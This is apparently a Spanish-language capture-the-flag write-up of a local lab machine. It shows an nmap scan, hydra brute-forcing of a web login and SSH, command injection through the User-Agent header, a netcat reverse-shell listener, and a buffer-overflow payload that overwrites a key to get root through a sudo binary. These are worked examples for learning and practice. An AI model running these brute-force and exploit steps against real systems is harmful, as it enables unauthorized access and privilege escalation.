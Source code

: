 ## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2
```

![image](https://github.com/user-attachments/assets/ef4ad12d-e455-4a13-b07f-1fe2f32fcd2e)

nmap reporta 2 servicios levantados, ssh y http asi que comienzo chequeando la web

![image](https://github.com/user-attachments/assets/41754477-d95b-4b33-994d-45a225b1558b)

me consigo con un panel de login, al parecer no es vulnerable a una inyeccion basica sql, asi que enumerare la web pero tampoco consigo nada por lo que ahora reviso el
codigo fuente y lo unico que puedo observar es un comentario 

![image](https://github.com/user-attachments/assets/86f43e38-1582-42b5-b654-9b0c4e83eb9f)

aunque no da ciertamente ninguna informacion, podria ser este el user para el panel de login por lo que aplicare un ataque de diccionario contra el panel

```ruby
hydra -l d1se0 -P /usr/share/wordlists/rockyou.txt 172.17.0.2 http-post-form "/index.php:username=^USER^&password=^PASS^:F=¡Ups! Las credenciales no son correctas. Intenta nuevamente."
```

![image](https://github.com/user-attachments/assets/7690764f-b119-4711-9633-006e4e92a393)

obtengo credenciales para el acceso asi que me logueo

![image](https://github.com/user-attachments/assets/c66f18e9-53a1-408f-8853-f9b596849bea)

en este punto intente varios vectores de ataque hasta dar con el vector correcto, el user-agent es vulnerable directamente a ejecucion de comandos!!!

![image](https://github.com/user-attachments/assets/94e9ee72-c0cb-4fca-993d-9ab9c47a1371)

asi que inspecciono un poco el sistema desde este punto

![image](https://github.com/user-attachments/assets/958cee1e-9f24-48c3-9b28-243ff56f9705)

existe un solo usuario en el sistema, en este punto podria lanzarme una `webshell` y ganar acceso directamente o intentar un ataque de diccionario contra el servicio `ssh` y el user `flow`

```ruby
hydra -l flow -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

por esta via no obtengo resultados asi que me lanzo una `webshell`

```ruby
nc -lnvp 4445 # me coloco en escucha con netcat
```

![image](https://github.com/user-attachments/assets/3f675cec-ab10-4a86-a6c9-70ed0b11841e)

## Escalada de Privilegios

### www-data

tratamiento de la terminal

```
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```

lo primero que realizo es una busqueda de archivos que pertenezcan al user `flow`

```ruby
find / -type f -user flow 2>/dev/null # buscamos archivos del user flow en el sistema
```

conseguirmos el archivo `/usr/bin/secret` que al leerlo obtenemos lo siguiente

![image](https://github.com/user-attachments/assets/f9a44958-e146-466d-914a-67cad8bc5c3f)

asi que decodifico 

```ruby
echo "MQYXGZJQNFZXI2DFMJSXG5CAEQSCC===" |base32 -d
```

y obtengo lo que parece ser la password de `flow` asi que la pruebo

![image](https://github.com/user-attachments/assets/76972d79-797e-4de0-8c67-faba9fea0132)

### flow

ahora como el user `flow` puedo ejecutar un binario como `root`

![image](https://github.com/user-attachments/assets/1ef82770-c76c-4aa6-a12e-f00c79bc8ed2)

![image](https://github.com/user-attachments/assets/022e9812-3921-4649-9b66-fe730f45d8b5)

algo interesante que veo es que el binario al no ser ejecutado como `root` lanza un mensaje adicional indicando que
no pudo abrir el archivo por permisos, asi que primero le hare reversing y analizarlo mejor 

![image](https://github.com/user-attachments/assets/2cd44df3-0662-4bee-b28c-6dcd75bb3218)

aqui puedo ver varios detalles dentro de la funcion `main`, comenzando por lo que parece ser que el tamano del buffer que 
almacena la entrada del usuario es de 76 byte, ademas veo que se hace uso de un condicional `if` para determinar el flujo del
programa dependiendo la entrada del usuario, por un lado si la entrada del usuario es igual a `0x726f6f74` entonces imprime el mensaje `"estas en modo administrador"` y llama a continuacion las funciones `write_key_to_file` & `execute_command` (al parecer al acceder al modo administrador es posible la ejecucion de comandos), en caso de ser la entrada diferente a `0x726f6f74` entonces imprime el mensaje `"estas en modo usuario"` y llama a las funciones `write_key_to_file` y `user_mode`.

Ahora analizare la funcion `write_key_to_file` que es la que me interesa ya que el binario interactua con un archivo (me di cuenta al ejecutar el binario sin sudo)

![image](https://github.com/user-attachments/assets/6021093e-1e7f-41b8-a7fe-3a1695938e86)

ahora en la funcion `write_key_to_file` puedo ver el archivo con el que esta interactuando >> `"/tmp/key_output.txt"`; ahora si reviso el archivo observo que imprime el valor de la `key`

![image](https://github.com/user-attachments/assets/230946cc-45a8-4749-bdf0-f15f6c18c614)

ahora intentare testear a ver si es posible cambiar el valor de la key

![image](https://github.com/user-attachments/assets/575ae2e7-454f-4250-9001-1f1e5e7981e9)

imprime un valor distinto, es decir, que a traves del input que le pasemos al binario varia la `key` y si paso el valor de la `key` a hexadecimal veo que su valor es `41414141`

![image](https://github.com/user-attachments/assets/b197144b-bfca-4ba2-8c95-6a997d57ec3b)

esto quiere decir que la key la he sobreescrito con las A's que pase en el input, y si recordamos el tamano del buffer 
que observamos en la funcion `main` indica que es de 76 byte por lo que le pasare 76 A y una B al final para ver si llego a sobreescribir la key con el valor de B  

![image](https://github.com/user-attachments/assets/113e9977-c19e-41a9-b011-c0d901a861f8)

la key ahora vale 66 y si lo paso a hexadecimal su valor es 42, es decir, B

![image](https://github.com/user-attachments/assets/0963b8b4-bf81-4b46-a513-90f90eda99fd)

como ya se que puedo manipular el valor de la `key` le pasare lo que solicita el binario `Tu clave sera "root" para entrar al modo administrador`, y como vimos en la funcion `main` espera `0x726f6f74` que es en efecto `root` asi que le envio el siguiente payload

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAtoor
```

![image](https://github.com/user-attachments/assets/107bdb26-496f-41f1-9e38-df7a6aff0165)

he logrado acceder al modo administrador donde puedo ejecutar comandos, le paso `toor` y no `root` ya que se debe invertir el valor debido a que las maquinas actuales tienen arquitecturas `Little-Endian`, es decir, los bytes de una palabra se almacenan en orden inverso, del menos significativo al más significativo.

ahora solo me queda ejecutar un `/bin/bash` para obtener la `shell` como `root`

![image](https://github.com/user-attachments/assets/397605f5-83cf-436b-8da0-4610eeff9b28)

### PWNED-ROOT













































